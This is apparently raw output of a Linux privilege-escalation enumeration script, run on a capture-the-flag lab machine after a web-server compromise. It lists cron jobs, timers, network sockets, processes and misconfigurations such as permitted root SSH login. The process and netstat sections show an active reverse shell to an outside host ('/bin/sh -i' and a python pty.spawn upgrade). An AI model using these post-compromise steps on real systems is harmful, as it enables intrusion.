-rw-r--r-- 1 root root 110 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/kconfig/.conf.cmd
-rw-r--r-- 1 root root 3581 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.kallsyms.cmd
-rw-r--r-- 1 root root 5678 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.extract-cert.cmd
-rw-r--r-- 1 root root 5525 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.devicetable-offsets.s.cmd
-rw-r--r-- 1 root root 3517 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.mk_elfconfig.cmd
-rw-r--r-- 1 root root 104 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.elfconfig.h.cmd
-rw-r--r-- 1 root root 5806 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.modpost.o.cmd
-rw-r--r-- 1 root root 2223 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.empty.o.cmd
-rw-r--r-- 1 root root 4498 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.file2alias.o.cmd
-rw-r--r-- 1 root root 129 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.modpost.cmd
-rw-r--r-- 1 root root 5476 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/mod/.sumversion.o.cmd
-rw-r--r-- 1 root root 3315 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.conmakehash.cmd
-rw-r--r-- 1 root root 5150 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/basic/.fixdep.cmd
-rw-r--r-- 1 root root 1436 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/basic/.bin2c.cmd
-rw-r--r-- 1 root root 4254 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/scripts/.asn1_compiler.cmd
-rw-r--r-- 1 root root 216690 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.config.old
-rw-r--r-- 1 root root 56406 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.cache.mk
-rw-r--r-- 1 root root 216566 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.config
-rw-r--r-- 1 root root 680 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/.missing-syscalls.d
-rw-r--r-- 1 root root 4370 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs_32.o.cmd
-rw-r--r-- 1 root root 4359 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs_common.o.cmd
-rw-r--r-- 1 root root 4370 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs_64.o.cmd
-rw-r--r-- 1 root root 146 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/tools/.relocs.cmd
-rw-r--r-- 1 root root 324 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/asm/.xen-hypercalls.h.cmd
-rw-r--r-- 1 root root 232 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/asm/.syscalls_32.h.cmd
-rw-r--r-- 1 root root 260 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/uapi/asm/.unistd_64.h.cmd
-rw-r--r-- 1 root root 280 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/uapi/asm/.unistd_x32.h.cmd
-rw-r--r-- 1 root root 255 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/include/generated/uapi/asm/.unistd_32.h.cmd
-rw-r--r-- 1 root root 53872 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/arch/x86/kernel/.asm-offsets.s.cmd
-rw-r--r-- 1 root root 12620 Feb  1  2018 /usr/src/linux-headers-4.15.0-041500-generic/kernel/.bounds.s.cmd


[-] Home directory contents:
total 12K
drwxr-xr-x  3 root     root     4.0K Feb  9  2018 .
drwxr-xr-x 14 root     root     4.0K Feb  9  2018 ..
drwxr-xr-x  3 www-data www-data 4.0K Feb 21  2018 html


[-] Root is allowed to login via SSH:
PermitRootLogin yes


### ENVIRONMENTAL #######################################
[-] Environment information:
APACHE_PID_FILE=/var/run/apache2/apache2.pid
APACHE_RUN_USER=www-data
SHELL=bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOG_DIR=/var/log/apache2
PWD=/
LANG=C
APACHE_RUN_GROUP=www-data
SHLVL=2
APACHE_RUN_DIR=/var/run/apache2
APACHE_LOCK_DIR=/var/lock/apache2
_=/usr/bin/env


[-] Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


[-] Current umask value:
0000
u=rwx,g=rwx,o=rwx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Feb 15  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  670 Mar  1  2016 php
-rw-r--r--  1 root root  190 Feb  9  2018 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root  539 Apr  5  2016 apache2
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 Jun 19  2017 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 26  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 12  2015 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Feb  9  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Feb  9  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  211 May 24  2016 update-notifier-common


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


[-] Systemd timers:
NEXT                         LEFT          LAST                         PASSED      UNIT                         ACTIVATES
Mon 2018-11-05 18:44:49 EST  1min 58s left Mon 2018-11-05 18:39:49 EST  3min 1s ago backuperer.timer             backuperer.service
Tue 2018-11-06 02:18:45 EST  7h left       Mon 2018-11-05 02:18:45 EST  16h ago     systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Tue 2018-11-06 06:53:56 EST  12h left      Mon 2018-11-05 06:29:37 EST  12h ago     apt-daily-upgrade.timer      apt-daily-upgrade.service
Tue 2018-11-06 12:09:16 EST  17h left      Mon 2018-11-05 18:02:07 EST  40min ago   apt-daily.timer              apt-daily.service
n/a                          n/a           n/a                          n/a         snapd.refresh.timer
n/a                          n/a           n/a                          n/a         snapd.snap-repair.timer      snapd.snap-repair.service
n/a                          n/a           n/a                          n/a         ureadahead-stop.timer        ureadahead-stop.service

7 timers listed.


### NETWORKING  ##########################################
[-] Network and IP info:
ens33     Link encap:Ethernet  HWaddr 00:50:56:b4:bf:a1
          inet addr:10.10.10.88  Bcast:10.10.10.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1671284 errors:91 dropped:338 overruns:0 frame:0
          TX packets:1081149 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:157489636 (157.4 MB)  TX bytes:224876493 (224.8 MB)
          Interrupt:19 Base address:0x2000

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:4698 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4698 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:370288 (370.2 KB)  TX bytes:370288 (370.2 KB)


[-] ARP history:
? (10.10.10.2) at 00:50:56:b4:f5:b5 [ether] on ens33


[-] Nameserver(s):
nameserver 10.10.10.2


[-] Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens33


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0    116 10.10.10.88:49186       10.10.14.8:9001         ESTABLISHED 6604/sh
tcp        1      0 10.10.10.88:80          10.10.14.8:59800        CLOSE_WAIT  -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 10.10.10.88:55596       10.10.10.2:53           ESTABLISHED -


### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.2   6496  4892 ?        Ss   02:03   0:03 /sbin/init
root         2  0.0  0.0      0     0 ?        S    02:03   0:00 [kthreadd]
root         4  0.0  0.0      0     0 ?        I<   02:03   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        I<   02:03   0:00 [mm_percpu_wq]
root         7  0.0  0.0      0     0 ?        S    02:03   0:12 [ksoftirqd/0]
root         8  0.0  0.0      0     0 ?        I    02:03   0:09 [rcu_sched]
root         9  0.0  0.0      0     0 ?        I    02:03   0:00 [rcu_bh]
root        10  0.0  0.0      0     0 ?        S    02:03   0:00 [migration/0]
root        11  0.0  0.0      0     0 ?        S    02:03   0:00 [watchdog/0]
root        12  0.0  0.0      0     0 ?        S    02:03   0:00 [cpuhp/0]
root        13  0.0  0.0      0     0 ?        S    02:03   0:00 [kdevtmpfs]
root        14  0.0  0.0      0     0 ?        I<   02:03   0:00 [netns]
root        15  0.0  0.0      0     0 ?        S    02:03   0:00 [rcu_tasks_kthre]
root        16  0.0  0.0      0     0 ?        S    02:03   0:00 [kauditd]
root        17  0.0  0.0      0     0 ?        S    02:03   0:00 [khungtaskd]
root        18  0.0  0.0      0     0 ?        S    02:03   0:00 [oom_reaper]
root        19  0.0  0.0      0     0 ?        I<   02:03   0:00 [writeback]
root        20  0.0  0.0      0     0 ?        S    02:03   0:00 [kcompactd0]
root        21  0.0  0.0      0     0 ?        SN   02:03   0:00 [ksmd]
root        22  0.0  0.0      0     0 ?        SN   02:03   0:00 [khugepaged]
root        23  0.0  0.0      0     0 ?        I<   02:03   0:00 [crypto]
root        24  0.0  0.0      0     0 ?        I<   02:03   0:00 [kintegrityd]
root        25  0.0  0.0      0     0 ?        I<   02:03   0:00 [kblockd]
root        26  0.0  0.0      0     0 ?        I<   02:03   0:00 [ata_sff]
root        27  0.0  0.0      0     0 ?        I<   02:03   0:00 [md]
root        28  0.0  0.0      0     0 ?        I<   02:03   0:00 [edac-poller]
root        29  0.0  0.0      0     0 ?        I<   02:03   0:00 [devfreq_wq]
root        30  0.0  0.0      0     0 ?        I<   02:03   0:00 [watchdogd]
root        34  0.0  0.0      0     0 ?        S    02:03   0:00 [kswapd0]
root        35  0.0  0.0      0     0 ?        S    02:03   0:00 [ecryptfs-kthrea]
root        77  0.0  0.0      0     0 ?        I<   02:03   0:00 [kthrotld]
root        78  0.0  0.0      0     0 ?        I<   02:03   0:00 [acpi_thermal_pm]
root        79  0.0  0.0      0     0 ?        I<   02:03   0:00 [nvme-wq]
root        80  0.0  0.0      0     0 ?        S    02:03   0:00 [scsi_eh_0]
root        81  0.0  0.0      0     0 ?        I<   02:03   0:00 [scsi_tmf_0]
root        82  0.0  0.0      0     0 ?        S    02:03   0:00 [scsi_eh_1]
root        83  0.0  0.0      0     0 ?        I<   02:03   0:00 [scsi_tmf_1]
root        85  0.0  0.0      0     0 ?        I<   02:03   0:00 [ipv6_addrconf]
root        95  0.0  0.0      0     0 ?        I<   02:03   0:00 [kstrp]
root       112  0.0  0.0      0     0 ?        I<   02:03   0:00 [charger_manager]
root       170  0.0  0.0      0     0 ?        S    02:03   0:00 [scsi_eh_2]
root       172  0.0  0.0      0     0 ?        I<   02:03   0:00 [scsi_tmf_2]
root       173  0.0  0.0      0     0 ?        I<   02:03   0:00 [vmw_pvscsi_wq_2]
root       174  0.0  0.0      0     0 ?        I<   02:03   0:00 [kworker/0:1H]
root       194  0.0  0.0      0     0 ?        I<   02:03   0:00 [ttm_swap]
root       196  0.0  0.0      0     0 ?        S    02:03   0:00 [irq/16-vmwgfx]
root       273  0.0  0.0      0     0 ?        I<   02:03   0:00 [raid5wq]
root       297  0.0  0.0      0     0 ?        I<   02:03   0:00 [kdmflush]
root       298  0.0  0.0      0     0 ?        I<   02:03   0:00 [bioset]
root       307  0.0  0.0      0     0 ?        I<   02:03   0:00 [kdmflush]
root       308  0.0  0.0      0     0 ?        I<   02:03   0:00 [bioset]
root       348  0.0  0.0      0     0 ?        S    02:03   0:00 [jbd2/dm-0-8]
root       349  0.0  0.0      0     0 ?        I<   02:03   0:00 [ext4-rsv-conver]
root       401  0.1  0.1   7044  2756 ?        Ss   02:03   1:33 /lib/systemd/systemd-journald
root       403  0.0  0.0  21480  1396 ?        Ss   02:03   0:00 /sbin/lvmetad -f
root       418  0.0  0.0      0     0 ?        I<   02:03   0:00 [iscsi_eh]
root       420  0.0  0.1  13952  3416 ?        Ss   02:03   0:02 /lib/systemd/systemd-udevd
root       437  0.0  0.0      0     0 ?        I<   02:03   0:00 [ib-comp-wq]
root       438  0.0  0.0      0     0 ?        I<   02:03   0:00 [ib_mcast]
root       439  0.0  0.0      0     0 ?        I<   02:03   0:00 [ib_nl_sa_wq]
root       460  0.0  0.0      0     0 ?        I<   02:03   0:00 [rdma_cm]
root       656  0.0  0.0      0     0 ?        I<   02:03   0:00 [ext4-rsv-conver]
systemd+   689  0.0  0.1  12600  2376 ?        Ssl  02:03   0:03 /lib/systemd/systemd-timesyncd
root       798  0.0  0.4  51780  8584 ?        Ssl  02:03   0:37 /usr/bin/vmtoolsd
root       802  0.0  0.1 104300  2612 ?        Ssl  02:03   0:02 /usr/bin/lxcfs /var/lib/lxcfs/
root       807  0.0  0.5 854564 12096 ?        Ssl  02:03   0:01 /usr/lib/snapd/snapd
message+   808  0.0  0.1   6052  3788 ?        Ss   02:03   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root       829  0.0  0.0   3800  1128 ?        Ss   02:03   0:00 /lib/systemd/systemd-logind
root       858  0.0  0.0   2248  1116 ?        Ss   02:03   0:00 /usr/sbin/acpid
root       859  0.0  0.2  37672  6000 ?        Ssl  02:03   0:01 /usr/lib/accountsservice/accounts-daemon
syslog     860  0.0  0.1  30732  3612 ?        Ssl  02:03   0:38 /usr/sbin/rsyslogd -n
root       861  0.0  0.1   5584  2672 ?        Ss   02:03   0:00 /usr/sbin/cron -f
daemon     862  0.0  0.1   3484  2124 ?        Ss   02:03   0:00 /usr/sbin/atd -f
root       933  0.0  0.0   3136   124 ?        Ss   02:03   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root       965  0.0  0.2  35768  5716 ?        Ssl  02:03   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1135  0.0  0.0   2988   112 ?        Ss   02:03   0:00 /sbin/iscsid
root      1136  0.0  0.1   3448  2900 ?        S<Ls 02:03   0:05 /sbin/iscsid
mysql     1140  0.0  6.4 544844 132556 ?       Ssl  02:03   0:17 /usr/sbin/mysqld
root      1196  0.0  0.0   4752  1868 tty1     Ss+  02:03   0:00 /sbin/agetty --noclear tty1 linux
root      1267  0.0  1.2 120164 25380 ?        Ss   02:03   0:02 /usr/sbin/apache2 -k start
root      6086  0.0  0.0      0     0 ?        I    18:10   0:00 [kworker/0:1]
root      6227  0.0  0.0      0     0 ?        I    18:18   0:00 [kworker/u2:2]
root      6590  0.0  0.0      0     0 ?        I    18:30   0:00 [kworker/0:2]
www-data  6604  0.0  0.0   2372   656 ?        S    18:32   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  6608  0.0  0.0   2372   580 ?        S    18:32   0:00 /bin/sh -i
www-data  6609  0.0  0.2   8196  5412 ?        S    18:33   0:00 python -c import pty; pty.spawn("/bin/bash")
www-data  6610  0.0  0.1   3760  2912 pts/0    Ss   18:33   0:00 /bin/bash
root      6740  0.0  0.0      0     0 ?        I    18:37   0:00 [kworker/u2:0]
root      6894  0.0  0.0      0     0 ?        I    18:40   0:00 [kworker/0:0]
www-data  6909  0.1  0.1   4164  3108 pts/0    S+   18:42   0:00 bash
www-data  6910  0.0  0.1   4260  3164 pts/0    S+   18:42   0:00 bash
www-data  6911  0.0  0.0   2232   544 pts/0    S+   18:42   0:00 tee -a
root      7318  0.0  0.0      0     0 ?        I    18:43   0:00 [kworker/u2:1]
www-data  7326  0.0  0.1   4260  2528 pts/0    S+   18:43   0:00 bash
www-data  7327  0.0  0.1   5680  2760 pts/0    R+   18:43   0:00 ps aux
www-data 19505  0.0  0.3 120236  7136 ?        S    06:28   0:00 /usr/sbin/apache2 -k start
www-data 19615  0.0  0.5 120432 12304 ?        S    06:29   0:00 /usr/sbin/apache2 -k start
www-data 19616  0.0  0.3 120236  7136 ?        S    06:29   0:00 /usr/sbin/apache2 -k start
www-data 21971  0.0  0.5 120440 12016 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21973  0.0  0.5 120432 12104 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21982  0.0  0.5 120432 12168 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21986  0.0  0.5 120432 12200 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 21994  0.0  0.5 120432 12168 ?        S    07:56   0:00 /usr/sbin/apache2 -k start
www-data 22005  0.0  0.5 120432 12168 ?        S    07:57   0:00 /usr/sbin/apache2 -k start
www-data 22024  0.0  0.5 120432 12168 ?        S    07:57   0:00 /usr/sbin/apache2 -k start


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x 1 root root  1109564 May 16  2017 /bin/bash
lrwxrwxrwx 1 root root        4 Feb  9  2018 /bin/sh -> dash
-rwxr-xr-x 1 root root   349960 Mar  8  2018 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   641532 Mar  8  2018 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   149252 Mar  8  2018 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   452404 Mar  8  2018 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    38828 Nov 30  2017 /sbin/agetty
lrwxrwxrwx 1 root root       20 Mar  8  2018 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   727796 Jul 26  2017 /sbin/iscsid
-rwxr-xr-x 1 root root    54708 Apr 16  2016 /sbin/lvmetad
-rwxr-xr-x 1 root root   598044 Nov  8  2017 /sbin/mdadm
-rwxr-xr-x 1 root root   259940 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root    17820 Nov  8  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    43188 Feb 15  2018 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root   170936 Nov  3  2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root     9992 Jan 17  2016 /usr/lib/policykit-1/polkitd
-rwxr-xr-x 1 root root 12287396 Apr 11  2018 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    51068 Apr  8  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root   647152 Apr 18  2018 /usr/sbin/apache2
-rwxr-xr-x 1 root root    21880 Jan 14  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    43128 Apr  5  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root 24295748 Apr 20  2018 /usr/sbin/mysqld
-rwxr-xr-x 1 root root   670548 Apr  5  2016 /usr/sbin/rsyslogd


[-] /etc/init.d/ binary permissions:
total 324
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root 1264 May  1  2018 .depend.boot
-rw-r--r--  1 root root 1032 May  1  2018 .depend.start
-rw-r--r--  1 root root 1213 May  1  2018 .depend.stop
-rw-r--r--  1 root root 2427 Jan 19  2016 README
-rwxr-xr-x  1 root root 2243 Feb  9  2016 acpid
-rwxr-xr-x  1 root root 2210 Apr  5  2016 apache-htcacheclean
-rwxr-xr-x  1 root root 8087 Apr  5  2016 apache2
-rwxr-xr-x  1 root root 6223 Mar  3  2017 apparmor
-rwxr-xr-x  1 root root 2802 Jan  2  2018 apport
-rwxr-xr-x  1 root root 1071 Dec  6  2015 atd
-rwxr-xr-x  1 root root 1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x  1 root root 3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x  1 root root 1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x  1 root root 9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x  1 root root 1343 Apr  4  2016 console-setup
-rwxr-xr-x  1 root root 3049 Apr  5  2016 cron
-rwxr-xr-x  1 root root  937 Mar 28  2015 cryptdisks
-rwxr-xr-x  1 root root  896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x  1 root root 2813 Dec  1  2015 dbus
-rwxr-xr-x  1 root root 1105 Mar 15  2016 grub-common
-rwxr-xr-x  1 root root 1336 Jan 19  2016 halt
-rwxr-xr-x  1 root root 1423 Jan 19  2016 hostname.sh
-rwxr-xr-x  1 root root 3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x  1 root root 2372 Apr 11  2016 irqbalance
-rwxr-xr-x  1 root root 1503 Mar 29  2016 iscsid
-rwxr-xr-x  1 root root 1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x  1 root root 1300 Jan 19  2016 killprocs
-rwxr-xr-x  1 root root 2087 Dec 20  2015 kmod
-rwxr-xr-x  1 root root  695 Oct 30  2015 lvm2
-rwxr-xr-x  1 root root  571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x  1 root root  586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x  1 root root 2378 Nov  8  2017 lxcfs
-rwxr-xr-x  1 root root 2539 Jun  8  2017 lxd
-rwxr-xr-x  1 root root 2365 Oct  9  2017 mdadm
-rwxr-xr-x  1 root root 1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x  1 root root  703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x  1 root root 2301 Jan 19  2016 mountall.sh
-rwxr-xr-x  1 root root 1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x  1 root root 1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x  1 root root  711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x  1 root root 2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x  1 root root 5607 Feb  3  2017 mysql
-rwxr-xr-x  1 root root 4771 Jul 19  2015 networking
-rwxr-xr-x  1 root root 1581 Oct 15  2015 ondemand
-rwxr-xr-x  1 root root 2503 Mar 29  2016 open-iscsi
-rwxr-xr-x  1 root root 1578 Sep 18  2016 open-vm-tools
-rwxr-xr-x  1 root root 1366 Nov 15  2015 plymouth
-rwxr-xr-x  1 root root  752 Nov 15  2015 plymouth-log
-rwxr-xr-x  1 root root 1192 Sep  6  2015 procps
-rwxr-xr-x  1 root root 6366 Jan 19  2016 rc
-rwxr-xr-x  1 root root  820 Jan 19  2016 rc.local
-rwxr-xr-x  1 root root  117 Jan 19  2016 rcS
-rwxr-xr-x  1 root root  661 Jan 19  2016 reboot
-rwxr-xr-x  1 root root 4149 Nov 23  2015 resolvconf
-rwxr-xr-x  1 root root 4355 Jul 10  2014 rsync
-rwxr-xr-x  1 root root 2796 Feb  3  2016 rsyslog
-rwxr-xr-x  1 root root 1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x  1 root root 3927 Jan 19  2016 sendsigs
-rwxr-xr-x  1 root root  597 Jan 19  2016 single
-rw-r--r--  1 root root 1087 Jan 19  2016 skeleton
-rwxr-xr-x  1 root root 4077 Mar 16  2017 ssh
-rwxr-xr-x  1 root root 6087 Apr 12  2016 udev
-rwxr-xr-x  1 root root 2049 Aug  7  2014 ufw
-rwxr-xr-x  1 root root 2737 Jan 19  2016 umountfs
-rwxr-xr-x  1 root root 2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x  1 root root 1879 Jan 19  2016 umountroot
-rwxr-xr-x  1 root root 1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x  1 root root 3111 Jan 19  2016 urandom
-rwxr-xr-x  1 root root 1306 Jun 14  2017 uuidd


[-] /etc/init/ config file permissions:
total 160
drwxr-xr-x  2 root root 4096 May  1  2018 .
drwxr-xr-x 94 root root 4096 May  2  2018 ..
-rw-r--r--  1 root root  338 Apr  8  2016 acpid.conf
-rw-r--r--  1 root root 3709 Mar  3  2017 apparmor.conf
-rw-r--r--  1 root root 1629 Jan  2  2018 apport.conf
-rw-r--r--  1 root root  250 Apr  4  2016 console-font.conf
-rw-r--r--  1 root root  509 Apr  4  2016 console-setup.conf
-rw-r--r--  1 root root  297 Apr  5  2016 cron.conf
-rw-r--r--  1 root root  412 Mar 28  2015 cryptdisks-udev.conf
-rw-r--r--  1 root root 1519 Mar 28  2015 cryptdisks.conf
-rw-r--r--  1 root root  482 Sep  1  2015 dbus.conf
-rw-r--r--  1 root root 1247 Jun  1  2015 friendly-recovery.conf
-rw-r--r--  1 root root  284 Jul 23  2013 hostname.conf
-rw-r--r--  1 root root  300 May 21  2014 hostname.sh.conf
-rw-r--r--  1 root root  561 Mar 14  2016 hwclock-save.conf
-rw-r--r--  1 root root  674 Mar 14  2016 hwclock.conf
-rw-r--r--  1 root root  109 Mar 14  2016 hwclock.sh.conf
-rw-r--r--  1 root root  597 Apr 11  2016 irqbalance.conf
-rw-r--r--  1 root root  689 Aug 20  2015 kmod.conf
-rw-r--r--  1 root root  540 Jul  5  2017 lxcfs.conf
-rw-r--r--  1 root root  811 Jun  8  2017 lxd.conf
-rw-r--r--  1 root root 1757 Feb  3  2017 mysql.conf
-rw-r--r--  1 root root  530 Jun  2  2015 network-interface-container.conf
-rw-r--r--  1 root root 1756 Jun  2  2015 network-interface-security.conf
-rw-r--r--  1 root root  933 Jun  2  2015 network-interface.conf
-rw-r--r--  1 root root 2493 Jun  2  2015 networking.conf
-rw-r--r--  1 root root  568 Feb  1  2016 passwd.conf
-rw-r--r--  1 root root  363 Jun  5  2014 procps-instance.conf
-rw-r--r--  1 root root  119 Jun  5  2014 procps.conf
-rw-r--r--  1 root root  457 Jun  3  2015 resolvconf.conf
-rw-r--r--  1 root root  426 Dec  2  2015 rsyslog.conf
-rw-r--r--  1 root root  230 Apr  4  2016 setvtrgb.conf
-rw-r--r--  1 root root  641 Mar 16  2017 ssh.conf
-rw-r--r--  1 root root    7 Feb 21  2018 ssh.override
-rw-r--r--  1 root root  337 Apr 12  2016 udev.conf
-rw-r--r--  1 root root  360 Apr 12  2016 udevmonitor.conf
-rw-r--r--  1 root root  352 Apr 12  2016 udevtrigger.conf
-rw-r--r--  1 root root  473 Aug  7  2014 ufw.conf
-rw-r--r--  1 root root  683 Feb 24  2015 ureadahead-other.conf
-rw-r--r--  1 root root  889 Feb 24  2015 ureadahead.conf


[-] /lib/systemd/* config file permissions:
/lib/systemd/:
total 8.4M
drwxr-xr-x 27 root root  36K May  1  2018 system
